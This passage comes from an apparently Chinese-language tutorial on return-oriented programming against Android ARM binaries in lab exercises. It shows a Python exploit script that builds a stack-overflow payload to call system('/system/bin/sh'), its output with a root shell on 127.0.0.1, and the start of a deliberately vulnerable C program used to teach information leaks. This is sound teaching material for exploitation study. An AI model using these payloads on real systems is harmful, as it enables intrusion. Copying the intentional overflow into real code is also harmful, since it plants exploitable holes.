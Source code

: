     system_addr_str = p.recvuntil('\n')
    print "str:" + system_addr_str
    system_addr = int(system_addr_str,16)
    print "system_addr = " + hex(system_addr)
    
    p.recvuntil('\n')
    
    #.text:000253A4                 EXPORT system
    
    #0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc}
    gadget1 = system_addr + (0x00034ace - 0x000253A4)
    print "gadget1 = " + hex(gadget1)
    
    #.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
    r0 = system_addr + (0x0003F9B4 - 0x000253A4) - 1
    print "/system/bin/sh addr = " + hex(r0)
    
    payload =  '\x00'*132 + p32(gadget1) + p32(r0) + "\x00"*0x8 + p32(system_addr)
    
    p.send(payload)
    
    p.interactive()
    

执行结果如下：

    
    
    #!bash
    $ python level8.py 
    [+] Opening connection to 127.0.0.1 on port 10001: Done
    system_addr = 0xb6f1e3a5
    gadget1 = 0xb6f2dacf
    /system/bin/sh addr = 0xb6f389b4
    [*] Switching to interactive mode
    $ id
    uid=0(root) gid=0(root) context=u:r:shell:s0
    

# 0x04 Android上的information leak

* * *

在上面的例子中，我们假设已经知道了libc.so的基址了，但是如果我们是进行远程攻击，并且原程序中没有调用`system()`函数怎么办？这意味着目标程序的内存布局对我们来说是随机的，我们并不能直接调用libc.so中的gadgets，因为我们并不知道libc.so在内存中的地址。其实这也是有办法的，我们首先需要一个information leak的漏洞来获取libc.so在内存中的地址，然后再控制pc去执行我们的rop。现在我们来看level9.c:

    
    
    #!c
    #include<stdio.h>
    #include<stdlib.h>
    #include<unistd.h>
    #include<dlfcn.h>
    
    void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
    }
    